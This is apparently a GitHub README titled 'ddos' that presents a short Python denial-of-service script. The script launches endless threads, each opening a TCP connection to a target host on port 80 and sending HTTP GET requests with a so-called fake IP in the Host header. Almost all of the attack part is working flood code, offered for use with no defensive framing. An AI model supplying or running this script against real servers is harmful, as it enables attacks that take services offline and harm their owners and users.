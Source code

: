 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host

‍‍‍‍```
import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()

while True:
    thread = threading.Thread(target=attack)
    thread.start()```
    
# Don't be disappointed

